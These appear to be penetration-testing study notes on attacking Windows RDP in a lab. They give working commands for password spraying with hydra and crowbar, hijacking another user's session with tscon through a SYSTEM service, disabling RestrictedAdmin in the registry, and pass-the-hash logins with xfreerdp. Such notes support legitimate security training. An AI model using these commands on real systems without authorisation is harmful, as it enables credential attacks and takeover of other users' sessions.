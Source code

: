 # Password spraying
- Single password, many users
- `crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'`
- `hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp

# Protocol Specific attacks
- RDP Session Hijacking
	- eg. Logged in as user with Admin privileges, want to hijack anothre user also logged in via RDP
		- Check with Task Manager -> Users or `query user` in Powershell
	- We want to impersonate a user without their password
		- Need to have SYSTEM privileges, and use the Microsoft `tscon.exe` binary that enables users to connect to another desktop session
		-  `tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
			- Get the target session ID and our session name from `query user` in Powershell
		- If access denied,
			- `sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"`
				-  Execute the binary with SYSTEM privileges. This command creates the service called sessionhijack
			- `net start sessionhijack
				- run the command
## RDP Pass The Hash 
- See (kiv)
- Add the DIsableRestrictedAdminRegistry Key
	- `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
- Then can xfreerdp into it with the hash, without knowing cleartext password
	- `xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9`
		- `/pth` for pass the hash